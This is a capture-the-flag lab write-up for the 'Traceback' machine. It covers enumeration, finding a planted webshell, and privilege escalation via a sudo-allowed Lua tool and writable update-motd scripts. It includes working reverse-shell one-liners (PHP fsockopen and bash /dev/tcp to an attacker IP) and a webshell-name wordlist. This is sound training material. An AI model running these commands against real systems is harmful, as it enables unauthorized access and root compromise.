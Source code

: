 # Traceback

## Enumeration

We start off with a full-port nmap to check running services \(most of output truncated\)

```bash
$ sudo nmap -sS -n -p- -A -oN full.nmp 10.10.10.181

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
```

We see port 22 with SSH and port 80 with HTTP. Let's check the HTTP.

### HTTP

We're greeted with a strange message:

![The Message](../../.gitbook/assets/image%20%282%29.png)

It seems as if our job is to find the "backdoor" into the system. The source has nothing particularly interesting, except for a comment:

![The Comment](../../.gitbook/assets/image%20%2811%29.png)

If we google this comment we come across an interesting [GitHub repo](https://github.com/TheBinitGhimire/Web-Shells) with a collection of reverse shells. Let's put their names in a file called `wordlist.txt` and run `gobuster`:

```text
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```

```text
$ gobuster dir -u http://10.10.10.181/ -w wordlist.txt -t 50

===============================================================
/smevk.php (Status: 200)
===============================================================
```

It appears as if `smevk.php` is on the target! Let's head over to http://10.10.10.181/smevk.php and we what happens.

![The Webshell](../../.gitbook/assets/image%20%287%29.png)

It definitely exists! The [repo ](https://github.com/TheBinitGhimire/Web-Shells/blob/master/smevk.php)tells us the default credentials are `admin:admin`.

![Yes, it&apos;s pretty hideous](../../.gitbook/assets/image%20%289%29.png)

## Foothold

The webshell looks horrible, but we have an `Execute` input where we can run commands. We can now use this to get an actual reverse shell.

First we use `nc` on a terminal to listen for incoming connections:

```text
$ nc -nvlp 9001
```

Next we use a [PHP reverse shel](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)l **on the webshell** to redirect execution to it:

```text
$ php -r '$sock=fsockopen("10.10.14.21",9001);exec("/bin/sh -i <&3 >&3 2>&3");'
```

We get a connection! This is a fairly bad shell, but we can easily [upgrade it to be useful](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

## User

### Enumeration

Now we have a foothold, let's check what's in our user's home directory. It appears to be a file called `note.txt`:

```text
webadmin@traceback:/home/webadmin$ ls
note.txt

webadmin@traceback:/home/webadmin$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

We have been left "a tool to practise Lua". As always, first thing we should do as a new user is **check our permissions.**

```text
webadmin@traceback:/home/webadmin$ sudo -l
User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

We can run `luvit` as `sysadmin`! We can guess that `luvit` is the tool that runs Lua scripts. Because we can run it as `sysadmin`, if we create a Lua script that spawns a shell we will spawn with higher privileges.

### Exploitation

```lua
os.execute("/bin/bash")
```

This is the command we want to run. We can simply use `echo` to create it:

```text
webadmin@traceback:/home/webadmin$ echo 'os.execute("/bin/bash")' > privesc.lua
```

Now let's run it as `sysadmin`!

```text
$ sudo -u sysadmin /home/sysadmin/luvit privesc.lua
$ whoami
sysadmin
```

{% hint style="info" %}
You could also have done it in one line using the `-e` flag:

`sudo -u sysadmin /home/sysadmin/luvit -e ‘os.execute(“/bin/bash”)’`
{% endhint %}

We can now read `user.txt`!

```text
sysadmin@traceback:/home/webadmin$ cat ~/user.txt
895...
```

## Root

Firstly, we want to get a nice SSH shell. We can get this using SSH keys.

### Getting SSH Access

First create the key pair:

```text
$ ssh-keygen -f traceback

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again:
[...]
```

I just hit `Enter`, meaning there's no passphrase. Now `cat traceback.pub` and echo it into `~/.ssh/authorized_keys` - this registers the keypair as valid.

{% hint style="warning" %}
When using `echo` in these scenarios, use `>>` rather than `>`. Using only a single `>` will overwrite all the other contents, essentially erasing any keys owned by other people, which is not a great thing to do.
{% endhint %}

{% hint style="info" %}
If `~/.ssh` doesn't exist already, make sure you create it.
{% endhint %}

```text
echo "<public key>" >> ~/.ssh/authorized_keys
```

{% hint style="danger" %}
Make sure you spell it `authorized` not `authorised`!
{% endhint %}

Now we can log in via SSH using

```text
ssh -i traceback sysadmin@10.10.10.181
```

### Finding the Vulnerability

To perform some automated privesc recon, I'm going to run [`linpeas`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite).  Port it over by hosting it on a python SimpleHTPServer:

```text
$ sudo python3 -m http.server 80
```

The `wget` it on the box:

```text
wget 10.10.14.21/linpeas.sh
```

Then `chmod`, run and analyse the output.

Something that **really** sticks out is this:

![GROUP Writeable Files](../../.gitbook/assets/image%20%285%29.png)

These scripts get run **every time someone logs in with SSH**. If we can modify them \(which we can\), they will run whatever we modify them to. The important part here is [**they get run as root**](http://manpages.ubuntu.com/manpages/xenial/man5/update-motd.5.html#:~:text=Ubuntu%20introduced%20the%20update%2Dmotd,%2Fvar%2Frun%2Fmotd.).

### Exploitation

So the privesc is simple, but what should we get the file to do? There are a couple types of choices:

* Run something that enables us to get root
* Print the flag

In these situations, if both approaches are equivalently easy, then it's a good idea to go for **the approach that affects the least other users**. Nobody can notice our reverse shell since it's directly to our IP, so it doesn't affect other users.

```bash
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.21/9002 0>&1' > 00-header
```

Make sure you set up an `nc` listener on port 9002 and then log in via SSH again.

```text
$ nc -nvlp 9002
```

```text
$ ssh -i traceback sysadmin@10.10.10.181
```

And bam, we have a root shell.

```text
root@traceback:/# whoami
whoami
root

root@traceback:/# cat /root/root.txt
cat /root/root.txt
e68...
```



